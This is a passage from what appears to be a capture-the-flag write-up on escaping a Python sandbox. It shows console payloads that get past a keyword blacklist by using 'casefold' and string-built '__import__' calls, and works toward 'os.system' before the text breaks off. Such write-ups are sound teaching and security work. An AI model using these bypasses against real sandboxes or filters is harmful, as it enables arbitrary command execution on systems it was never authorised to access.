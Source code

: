 Testing the parts of our input once more, we find that `lower` is also not allowed.

```console
>> __builtins__
>> __dict__
Wrong Input
>> []
>> ()
>> '
Wrong Input
>> __IMPORT__
Wrong Input
>> lower
Illegal Input
```

Looking for alternatives to the `lower` method, we find the `casefold` method, which serves a similar purpose. As we can see, this method is not filtered and works.

```console
>> print(__builtins__.__dict__['__IMPORT__'.casefold()])
<built-in function __import__>
```

Returning to our payload, we find that when we attempt to import the `os` module, it is also not allowed, and we can see the reason why: `os` is filtered as well.

```console
>> __builtins__.__dict__['__IMPORT__'.casefold()]('os')
Illegal Input
>> os
Illegal Input
```

Since `os` is already supplied as a string and `OS` is not filtered, we can use the `casefold` method once more to bypass it.

As we can see, this works, and we are able to access the `os` module.

```console
>> print(__builtins__.__dict__['__IMPORT__'.casefold()]('OS'.casefold()))
<module 'os' from '/usr/lib/python3.9/os.py'>
```

However, if we try to access the `system` function, we find that we fail once more.

```console
>> __builtins__.__dict__['__IMPORT__'.casefold()]('OS'.casefold()).system
Illegal Input
```

This time, it's because `system` is filtered.

```console
>> system
Illegal Input
```

Now, we can use `__dict__` once more to be able to use `system` as a string and apply the `casefold` method to bypass the filter. 
